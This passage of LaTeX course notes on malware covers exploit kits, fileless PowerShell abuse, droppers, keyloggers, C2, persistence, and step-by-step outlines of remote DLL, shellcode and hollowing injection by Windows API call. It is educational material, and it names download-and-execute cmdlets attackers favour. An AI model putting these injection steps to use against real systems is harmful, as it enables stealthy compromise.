  
\includegraphics[width=\linewidth]{web vuln example 6.png}
\end{figure}

\subsection{Exploit Kit}
An \colorbox{green}{exploit kit} is a \colorbox{yellow}{collection of exploits}, namely a one-in-all tool that attackers
use to launch exploits against vulnerable programs

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{exploit kit.png}
\end{figure}

Command Injection Over HTTP:\\
• a remote attacker can exploit this issue by sending a specially crafted request to the victim\\
• successful exploitation allows an attacker to execute arbitrary code on the target machine.

MVPower DVR Remote Code Execution:\\
• a remote code execution vulnerability exists in MVPower DVR device\\
• a remote attacker can exploit this weakness to execute arbitrary code in the affected router via a crafted request

Web Server Exposed Git Repository Information Disclosure:\\
• an information disclosure vulnerability has been reported in Git Repository\\
• successful exploitation of this vulnerability could allow an unintentional disclosure of account information

SQL Injection (several techniques):\\
• inserting an injection of SQL query in input from client to application

D-Link DSL-2750B Remote Command Execution:\\
• a remote code execution vulnerability has been reported in D-Link DSL-2750B routers\\
• successful exploitation could lead to arbitrary code execution on the vulnerable device

OpenSSL TLS DTLS Heartbeat Information Disclosure (CVE-2014-0160; CVE-2014-0346):\\
• the vulnerability is due to an error when handling TLS/DTLS heartbeat packets\\
• an attacker can leverage this vulnerability to disclose memory contents of a connected client or server

\subsection{Fileless Malware}
\colorbox{green}{Fileless malware} is type of malware that, in an effort to \colorbox{yellow}{leave as few footprints as possible}, misuses existing utilities
that allow adversaries to trampoline from one stage of the attack to another (e.g., downloading, steal data,
backdoor) without relying on dropping compiled malicious executables (“Living off the land”)

Avoids detection by not writing malicious code to the disk and instead \colorbox{yellow}{uses legitimate system tools}

For example:\\
• PowerShell: a powerful scripting language that provides access to a machine’s inner
core, including unrestricted access to Windows APIs:\\
e.g., running malicious code as a command line argument\\
• Windows Management Instrumentation (WMI): WMI allows administrators to perform a
variety of actions, such as gather metrics, install software and updates or self-query the OS
(attackers can enable WinRM):\\
e.g., used by attackers to store malicious scripts that are then invoked periodically using WMI bindings

PowerShell is a management engine based on the .NET framework:\\
• This engine exposes a series of commands called cmdlets\\
• the engine is hosted in an application and Windows OS\\
• by default it ships a command-line interface (interactive console) and a GUI PowerShell ISE
(Integrated Scripted Environment)\\
• PowerShell is not a programming language, but it allows admins to create useful scripts
containing multiple commands:\\
typically used by the System Administrators for legitimate purposes\\
often used by the attackers to execute their malicious code\\
it provides access to all major OS functions and it leaves very few traces

Attackers leverage PowerShell as follows:\\
• to download additional components\\
• e.g., delivered via email attachments (such as .lnk, .wsf, JavaScript, VBScript, or Office documents with
malicious macros) which are capable of executing PowerShell scripts\\
• the attacker tricks the user into opening the malicious attachment, and the malicious code invokes
PowerShell\\
• As a lateral movement:\\
the attacker executes code on a remote computer to spread inside the network\\
• to dynamically load and execute code directly from memory without accessing the file
system:\\
this allows the attacker to be stealthy and makes forensic analysis much harder\\
• to execute obfuscated code:\\
this makes it hard to detect it with traditional security tools.

Frequently used commands and functions by attackers:\\
• Invoke-Expression(): this cmdlet evaluates or executes a specified string as a
command\\
• Invoke-Command(): this cmdlet can execute a PowerShell command on either a local or a
remote computer\\
• Start-Process(): this cmdlet starts a process from a given file path\\
• DownloadString(): this method from System.Net.WebClient (WebClient Class)
downloads the resource from an URL as a string\\
• DownloadFile(): this method from System.Net.WebClient (WebClient Class)
downloads the resource from an URL to a local file

3 \colorbox{cyan}{types of fileless malware};
\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{toxonomy fileless threats.png}
\end{figure}

\section{Malware Functionalities}

\begin{itemize}
  \item Nothing or annoying behaviour
  \item Additional functionalities/components (e.g., dropper, downloader)
  \item Maintain persistence across reboot (e.g., registry keys modification)
  \item Facilitate access \& remote control (e.g., backdoor, bot, remote access trojan):
  \item DDoS, malspam, privilege escalation, network lateral movement, ...
  \item Hiding (e.g., rootkit)
  \item Damage host (e.g., virus, ransomware)
  \item Data stealing (e.g., keylogger, spyware)
  \item Replication (e.g., worm)
\end{itemize}

\subsection{Downloader}
\colorbox{yellow}{downloads} another malware \colorbox{yellow}{component from the Internet} and \colorbox{yellow}{executes it} locally

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{downloader.png}
\end{figure}

\subsection{Dropper}
A program that \colorbox{yellow}{embeds additional malware} components \colorbox{yellow}{within itself}:\\
when executed, it \colorbox{yellow}{extracts} the malware components and \colorbox{yellow}{drops them to disk}

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{dropper.png}
\end{figure}
\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{dropper 2.png}
\end{figure}

\subsection{Keylogger}
A program that designed to \colorbox{yellow}{intercept and log keystrokes}:\\
• checking the key state (e.g., using GetAsyncKeyState())\\
• installing hooks (e.g., using SetWindowsHookEX())

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{keylogger.png}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{keylogger 2.png}
\end{figure}

\subsection{Replication}
Malware can spread by \colorbox{yellow}{infecting removable media} (e.g., USB drives), and then:\\
• it can take advantage of the Autorun feature to automatically infect other systems (almost not possible anymore nowadays)\\
• it can trick the user into clicking the file (e.g., Andromeda)\\
• it can exploit vulnerabilities to run (e.g., Stuxnet)

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{replication.png}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{replication 2.png}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{replication 3.png}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{replication 4.png}
\end{figure}

\subsection{Command And Control}
The malware \colorbox{green}{command and control (C\&C or C2)} refers to how attackers communicate and
exhibit control of the infected system

Upon infecting the system, most \colorbox{yellow}{malware communicates with the attacker-controlled server} (C2 server):\\
• to \colorbox{yellow}{take commands}\\
• to \colorbox{yellow}{download} additional components\\
• to \colorbox{yellow}{exfiltrate} information

Traditionally, Internet Relay Chat (IRC) used to be the most common C2 channel:\\
however, it is easy to detect as the protocol is not commonly used any more

Today, the most common protocol used by the malware for the C2 communication is
HTTP/HTTPS

Malware may sometimes use a protocol P2P or DNS tunneling for C2 communications

\subsection{Persistence}

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{persistence.png}
\end{figure}
\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{persistence 2.png}
\end{figure}
\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{persistence 3.png}
\end{figure}

DLL search order hijacking: Windows uses a common method to look for required DLLs to
load into a program:\\
• adversaries may take advantage of the Windows DLL search order and programs that ambiguously specify
DLLs to gain privilege escalation and persistence

COM hijacking: COM is a system within Windows to enable interaction between software
components through the operating system:\\
• adversaries can use this system to insert malicious code that can be executed in place of legitimate software
through hijacking the COM references and relationships as a means for persistence

Creating a service, i.e. a background task launched automatically:\\
• it can be an exe, DLL or sys (kernel driver)\\
• it can be created by various means (sc utility, batch script, Windows API, PowerShell and WMI)

\section{Code Injection and Hooking}

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{process memory.png}
\end{figure}

The kernel space is where the operating system lives. The user space is where
applications are running - processes manages by the OS.

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{process memory 2.png}
\end{figure}

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{process memory 3.png}
\end{figure}

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{process memory 4.png}
\end{figure}

The address table contains the data that is used by the program. Here, to write
a file, the user program retrieves the address of the WriteFile API call and
uses it to make a sys entry to tell the OS what is wanted and start the process
to write a file.

In Hooking, the attacker tries to make the API call go to a process that
is not legitimate (kernel32.dll)

\subsection{Code injection}

The goal of \colorbox{green}{code injection} (aka process injection) is to \colorbox{yellow}{inject code} into a remote process
memory \colorbox{yellow}{and execute it} in the context of that process

the injected code can be an executable, a DLL or a shellcode

An attacker typically chooses \colorbox{yellow}{a legitimate process} (e.g., explorer.exe or svchost.exe) as
the \colorbox{yellow}{target} process

Further actions:\\
• redirect API calls to the malicious module (DLL):\\
e.g., HttpSendRequest() to extract credentials from POST queries\\
• bypass security products (if injected in a trusted process)\\

Often code injection is used to interact with the OS without exploiting vulnerabilities:\\
for instance, API calls often abused by malware for injection include VirtualAllocEx() and
WriteProcessMemory(), which allow one process to write code into another process

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{code injection.png}
\end{figure}

\subsubsection{Remote DLL Injection}

With this technique, the \colorbox{yellow}{target process is forced to load a malicious DLL} into its process memory
space:\\
• e.g., using LoadLibrary() API\\
• the main DLL function is invoked (DllMain())

Steps:\\
• \colorbox{yellow}{identify} the process and get the process ID and open a handle (OpenProcess())\\
• \colorbox{yellow}{allocate memory} in the target process (VirtualAllocEx()) with ReadWrite\\
• \colorbox{yellow}{copy the DLL pathname} in the allocated memory\\
• determine address of \colorbox{yellow}{LoadLibrary()} in kernel32.dll\\
• execute a thread (CreateRemoteThread()) with a pointer to LoadLibrary() and to the allocated
memory with the string\\
• \colorbox{yellow}{deallocate memory and close the handle} to the target process

A similar attack can also be done using:\\
• APC injection using Asynchronous Procedure Calls (APCs)\\
• hook procedures\\
• application shim

\subsubsection{Remote Executable/Shellcode Injection}

Using this technique, the malicious code is injected into the target process memory directly
without dropping the component on the disk:\\
• shellcode or executable (whose import address table is configured for the target process)\\
• a \colorbox{yellow}{remote thread is forced to run} and execute the code\\
• the malicious code can come from the resource section of the malicious binary (it is not dropped on the disk)
or retrieved from the network

Steps:\\
• identify the process and get the process ID and open a handle (OpenProcess())\\
• allocate memory in the target process (VirtualAllocEx()) with ReadWriteExecute\\
• copy the malicious code in the allocated memory (WriteProcessMemory())\\
• execute a thread (CreateRemoteThread()) with a pointer to the address of the entrypoint of the
injected code

A similar attack can also be done using reflective DLL injection

\subsubsection{Hollow Process Injection}

\colorbox{green}{Hollowing} is a technique in which the \colorbox{yellow}{executable section} of the legitimate target process in
memory is \colorbox{yellow}{replaced with a malicious executable}\\
• The path of the process being hollowed out still points to the legitimate path\\
• it can \colorbox{pink}{bypass some security products} and remain undetected

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{hollowing.png}
\end{figure}

\begin{figure}[H]
  \centering
  \includegraphics[width=\linewidth]{hollowing 2.png}
\end{figure}

Other injection techniques:

• \colorbox{green}{Process Doppelgänging} (similar to process hollowing): an attacker \colorbox{yellow}{misuses NTFS} \colorbox{yellow}{transaction}
\colorbox{yellow}{capabilities} built into Microsoft Windows to \colorbox{yellow}{temporarily modify a trusted file} in memory
\colorbox{yellow}{without committing} \colorbox{yellow}{changes to disk}

• Attackers can \colorbox{yellow}{wrap executables into scripts} that \colorbox{yellow}{extract} malicious payload into memory
during runtime

\subsubsection{Code Injection Via Buffer Overflow}

A \colorbox{green}{buffer overflow} occurs when \colorbox{yellow}{data is written outside the boundaries allocated} to a
variable:
• e.g., stack smashing occurs when a buffer overflow overwrites data in the memory allocated to the execution
stack

It can have \colorbox{pink}{serious consequences} for the \colorbox{pink}{reliability and security} of a program:
